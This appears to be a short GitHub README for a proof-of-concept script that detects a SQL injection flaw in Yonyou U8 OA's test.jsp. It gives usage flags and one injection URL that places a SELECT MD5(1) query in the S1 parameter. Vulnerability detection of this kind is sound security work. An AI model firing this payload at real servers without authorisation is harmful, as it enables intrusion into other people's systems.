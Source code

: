 # U8detectPoc_Sql

对于用友 U8 OA test.jsp文件存在 SQL注入漏洞,进行脚本化检测POC


![54a0f28294bd422fa6a3db0f8e1b58b](https://user-images.githubusercontent.com/103556327/192998813-de8a659b-732e-4019-9dd5-ea47adff1010.jpg)

```
-h / --help使用帮助参数
```


![image](https://user-images.githubusercontent.com/103556327/192997926-5757abd1-4dd2-41ed-9c50-47d069f281fd.png)

```
-u 输入url网站地址直接进行检测是否存在漏洞
```

# poc:

```
http://target/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))
```
![4e950ce3adb881a6d25cb46f3decaa4](https://user-images.githubusercontent.com/103556327/192998187-93f2f586-e153-4235-a13f-2f4d39427df0.jpg)


### via:PeiQi
